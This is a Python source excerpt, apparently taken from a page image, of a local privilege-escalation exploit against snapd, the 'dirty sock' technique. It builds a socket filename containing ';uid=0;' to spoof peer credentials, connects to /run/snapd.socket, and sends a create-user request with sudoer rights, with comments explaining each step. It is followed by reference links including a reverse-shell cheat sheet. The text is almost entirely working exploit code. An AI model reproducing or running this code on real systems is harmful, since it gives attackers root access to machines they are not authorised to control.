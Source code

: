 ```python

    if not os.path.isfile(args.key):
        print("[!] That key file does not exist. Please try again.")
        sys.exit()

    return args

def create_sockfile():
    """Generates a random socket file name to use"""
    alphabet = string.ascii_lowercase
    random_string = ''.join(random.choice(alphabet) for i in range(10))
    dirty_sock = ';uid=0;'

    # This is where we slip on the dirty sock. This makes its way into the
    # UNIX AF_SOCKET's peer data, which is parsed in an insecure fashion
    # by snapd's ucrednet.go file, allowing us to overwrite the UID variable.
    sockfile = '/tmp/' + random_string + dirty_sock

    print("[+] Slipped dirty sock on random socket file: " + sockfile)

    return sockfile

def bind_sock(sockfile):
    """Binds to a local file"""
    # This exploit only works if we also BIND to the socket after creating
    # it, as we need to inject the dirty sock as a remote peer in the
    # socket's ancillary data.
    print("[+] Binding to socket file...")
    client_sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    client_sock.bind(sockfile)

    # Connect to the snap daemon
    print("[+] Connecting to snapd API...")
    client_sock.connect('/run/snapd.socket')

    return client_sock

def add_user(args, client_sock):
    """Main exploit function"""
    post_payload = ('{"email": "' + args.username +
                    '", "sudoer": true, "force-managed": true}')
    http_req = ('POST /v2/create-user HTTP/1.1\r\n'
                'Host: localhost\r\n'
                'Content-Length: ' + str(len(post_payload)) + '\r\n\r\n'
                + post_payload)

    # Send our payload to the snap API
    print("[+] Sending payload...")
    client_sock.sendall(http_req.encode("utf-8"))

    # Receive the data and extract the JSON
    http_reply = client_sock.recv(8192).decode("utf-8")

    # Try to extract a username from the valid reply
    regex = re.compile(r'"status":"OK","result":{"username":"(.*?)"')
    username = re.findall(regex, http_reply)

    # If exploit was not successful, give details and exit
    if '"status":"Unauthorized"' in http_reply:
        print("[!] System may not be vulnerable, here is the API reply:\n\n")
        print(http_reply)
        sys.exit()

```

[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: https://www.jianshu.com/p/3a2df9b7c353
[9]: https://www.cyberpunk.rs/ghidra-software-reverse-engineering-framework